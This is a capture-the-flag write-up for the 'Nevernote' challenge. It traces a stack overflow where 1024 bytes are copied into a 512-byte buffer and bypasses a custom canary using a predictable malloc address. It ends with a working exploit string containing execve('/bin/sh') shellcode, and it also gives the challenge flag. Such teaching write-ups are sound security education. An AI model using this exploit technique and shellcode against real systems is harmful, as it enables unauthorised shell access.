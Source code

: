 # Nevernote

## Problem
In light of the recent attacks on their machines, Daedalus Corp has implemented a buffer overflow detection library. 
Nevernote, a program made for Daedalus Corps employees to take notes, uses this library. Can you bypass their protection and read the secret? 
The binary can be found at `/home/nevernote/` on the shell server.

## Writeup
Nevernote.c runs a main command loop which takes various arguments and adds a new note, views an existing note, etc
````
    while (true){
        printf("Enter a command: ");
        fflush(stdout);
        if (fgets(command, 16, stdin) == NULL) goto exit;

        switch (command[0]){
            case 'a':
            case 'A':
                add_note(note_file_path);
                break;
            case 'v':
            case 'V':
                view_notes(note_file_path);
                break;
            case 'q':
            case 'Q':
                goto exit;
            default:
                puts("Commands: [a]dd_note, [v]iew_notes, [q]uit");
                fflush(stdout);
                break;
        }
    }
````
The note_file_path appends the name entered to this path **"/home/nevernote/notes/"**. This variable is malloced and is on the heap.
There was nothing "interesting" so far since 64 bytes name is read via `fgets`.

I later moved to the next function add_note
	`char *new_note = (char *)malloc(NOTE_SIZE);`
It is creating a buffer of NOTE_SIZE (1024 bytes) and passing that to get_note. That function is probably used to get the contents of the note.
add_note function is then checking the return status of get_note, and if successful, creates a file and writes the buffer to that file.

I then move on to get_note function hoping that this was the place where the magic was.
get_note function looked interesting at the first glance as it had the calls to create and verify canaries in the beginning and the end.

````
bool get_note(char *dest){
    struct safe_buffer temporary;
    bool valid;

    get_canary(&temporary.can);

    printf("Write your note: ");
    fflush(stdout);
    fgets(temporary.buf, NOTE_SIZE, stdin);

    // disallow some characters
    if (strchr(temporary.buf, '\t') || strchr(temporary.buf, '\r')){
        valid = false;
    }else{
        valid = true;
        strncpy(dest, temporary.buf, NOTE_SIZE);
    }

    verify_canary(&temporary.can);

    return valid;
}
````

It was using a safe_buffer structure to take the input. It even used proper NOTE_SIZE both while getting the input from stdin and while copying it to the buffer passed to it.
Everything looked fine till I checked how the structure safe_buffer is declared in canary.h

It had a char buffer and a varible of struct canary type. The most interesting line in the header file was this
`#define SAFE_BUFFER_SIZE 512`

The size of the buffer in safe buf was 512 bytes.
But get_note function copied NOTE_SIZE bytes into a safe_buffer.

**Buffer Overflow detected!!!!!**

I created compiled my own copy of nevernote from the source and ran it in gdb and examined the contents of the stack. I gave 512 bytes of input, exactly the size of the buffer
in the safe_buffer.

The command I used in gdb to run the program was
`r < <(python -c 'print "name\n" + "a\n" + "a"*512')`
where each '\n' sends input to the binary as if it is typed on console. Hence when the binary first asks for name, the input sent is "name\n", and the operation is "a\n" which is 
add and then I send 512 bytes of "a".

Before running this, I put a breakpoint just before call to strncpy by checking its address.
`b *0x08048910`

When the control hits the break point, I check the stack.
`x/32xw $esp`
I find the arguments as expected. I check the end of the buffer and then right after the buffer, there are the remaining fields of the safe_buffer type which are 
````
struct canary{
    int canary;
    int *verify;
};
````

these two values. I am assuming that get_canary function somehow gets the canary (it is using /dev/urandom) and sets it.
I verify this by 
`x temporary.can.canary` and it shows me
*0x924e000a:     Cannot access memory at address 0x924e000a*
which is the value on the stack at temporary.can.canary location. Also the next 4 bytes is a pointer on the heap which is supposed to point to canary and it contained 0x924ea41f

````
0xffffd5e0:     0x61616161      0x924e000a      0x0804c458      0x01e7f44e
0xffffd5f0:     0xf7e91f47      0xf7fc7000      0xffffd628      0x0804894e
0xffffd600:     0x0804c050      0xf7fc7000      0xf7fc7ac0      0xf7e7f10c
0xffffd610:     0xf7fc7ac0      0x08048da2      0xffffd634      0x0804c050
0xffffd620:     0x00000000      0x00000000      0xffffd6a8      0x08048bae
0xffffd630:     0x0804c008      0x00000010      0xf7fc7c20      0xf7ffd55c
0xffffd640:     0xffffd568      0xffffd588      0x00000000      0x00000a61
0xffffd650:     0x00000000      0x00000001      0x000001a8      0xf7000061
(gdb) x 0x0804c458
0x804c458:      0x924ea41f
````

There was something different because the verify was supposed to point to canary and as i continued, I got 
**Canary was incorrect!**
**Buffer overflow detected! Exiting.**
which was a good thing.

(Later I reliased that the \n and \0 characters had overwritten the first two bytes of the canary.)

Now all I needed was to give an input so that the verify always points to the canary. Now the HINT comes to the rescue.
Think about what fields of the canary struct you control. Also, malloc() is predictable without ASLR.

Since there is no ASLR, the pointer verify would always be malloced at address 0x0804c050. Hence I hard coded it into the exploit string. Also now is used '\90' instead of 'a'.
Also I check where the return address is stored and owerwrite that with a location inside the buffer. My exploit string so far is 

`r < <(python -c 'print "a\n" + "a\n" + "\x90"*516 + "\x50\xc0\x04\x08" + "a"*16 + "\xbc\xd6\xff\xff"')

Now I get a segfault after strncpy. I put a break point just before that and check the arguments I am passing to it. I have basically overwritten it with my buffer's \n\0 characters.
I could have reduced two bytes from my buffer but since my plan was to return to a value near the beginning of the buffer, I hard-coded the value being overwritten.

Ran gdb again
`r < <(python -c 'print "a\n" + "a\n" + "\x90"*516 + "\x50\xc0\x04\x08" + "a"*16 + "\xbc\xd6\xff\xff" + "\x50\xc0\x04\x08"')`. 
Now the verify_canary check passed and the function get_note returned to my return address. Now time to do some shell coding.

I took the tried and tested 28 byte execve(/bin/sh) code and inserted it. Since there were other function calls after the buffer overflow, I had to be careful not to corrupt the
stack. I decided to return above the return address instead (since I had 1024 bytes). Also gdb adds its own environment variables and even after unsetting them, I wasnt able to 
get the return address right. So I added a 200 byte NOP sled and then my shell code.

My final exploit string (after taking into consideration the STDIN closing issue) was
````
(echo "a"; echo "a"; python -c 'print "\x90\x90\x90\x90" + "\x90"*489 + "\x90"*23 + "\x50\xc0\x04\x08" + "a"*16 + "\xbc\xd6\xff\xff" + "\x50\xc0\x04\x08" + "\x90"*200 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"') > /tmp/aaa

(cat /tmp/aaa; cat) | ./nevernote
````

**FLAG: the_hairy_canary_fairy_is_still_very_wary**

